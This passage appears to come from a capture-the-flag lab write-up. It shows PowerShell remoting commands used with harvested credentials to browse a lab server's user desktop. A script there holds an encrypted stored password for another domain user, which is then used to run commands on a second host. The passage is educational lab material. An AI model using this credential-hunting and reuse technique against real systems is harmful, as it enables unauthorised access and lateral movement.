 `Hyper-V` is likely the virtualization technology to get nested Windows hosts like this. `keepmeon` is not something I’m familiar with.

Unfortunately, imonks is not able to access it:

```

PS C:\Utils> Invoke-Command -ScriptBlock { ls '\program files\keepmeon' } -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred
Access to the path 'C:\program files\keepmeon' is denied.
    + CategoryInfo          : PermissionDenied: (C:\program files\keepmeon:String) [Get-ChildItem], UnauthorizedAccess 
   Exception
    + FullyQualifiedErrorId : DirUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetChildItemCommand
    + PSComputerName        : ATSSERVER

```

#### Desktop

In addition to `user.txt`, there’s another file on imonk’s desktop:

```

PS C:\Utils> Invoke-Command -ScriptBlock { ls ..\desktop } -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred

    Directory: C:\Users\imonks\desktop

Mode                 LastWriteTime         Length Name                               PSComputerName                    
----                 -------------         ------ ----                               --------------                    
-ar---        05/06/2022     22:16             34 user.txt                           ATSSERVER                         
-a----        11/01/2022     18:04            602 wm.ps1                             ATSSERVER

```

It has credentials for jmorgan back on Acute-PC01:

```

$securepasswd = '01000000d08c9ddf0115d1118c7a00c04fc297eb0100000096ed5ae76bd0da4c825bdd9f24083e5c0000000002000000000003660000c00000001000000080f704e251793f5d4f903c7158c8213d0000000004800000a000000010000000ac2606ccfda6b4e0a9d56a20417d2f67280000009497141b794c6cb963d2460bd96ddcea35b25ff248a53af0924572cd3ee91a28dba01e062ef1c026140000000f66f5cec1b264411d8a263a2ca854bc6e453c51'
$passwd = $securepasswd | ConvertTo-SecureString
$creds = New-Object System.Management.Automation.PSCredential ("acute\jmorgan", $passwd)
Invoke-Command -ScriptBlock {Get-Volume} -ComputerName Acute-PC01 -Credential $creds

```

#### jmorgan

